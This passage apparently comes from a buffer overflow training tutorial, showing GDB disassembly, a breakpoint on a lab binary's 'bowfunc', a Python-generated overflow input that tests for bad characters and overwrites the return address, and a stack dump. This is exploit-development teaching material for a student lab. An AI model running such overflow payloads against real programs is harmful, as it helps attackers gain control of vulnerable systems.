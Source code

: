 ```shell-session
   0x565555bb <+57>:	push   eax
   0x565555bc <+58>:	call   0x565553e0 <puts@plt>
   0x565555c1 <+63>:	add    esp,0x10
   0x565555c4 <+66>:	mov    eax,0x1
   0x565555c9 <+71>:	lea    esp,[ebp-0x8]
   0x565555cc <+74>:	pop    ecx
   0x565555cd <+75>:	pop    ebx
   0x565555ce <+76>:	pop    ebp
   0x565555cf <+77>:	lea    esp,[ecx-0x4]
   0x565555d2 <+80>:	ret    
End of assembler dump.
```

To set the breakpoint, we give the command "`break`" with the corresponding function name.

#### GDB Breakpoint

GDB Breakpoint

```shell-session
(gdb) break bowfunc 

Breakpoint 1 at 0x56555551
```

And now, we can execute the newly created input and look at the memory.

#### Send CHARS

Send CHARS

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()
```

After we have executed our buffer with the bad characters and reached the breakpoint, we can look at the stack.

#### The Stack

The Stack

```shell-session
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

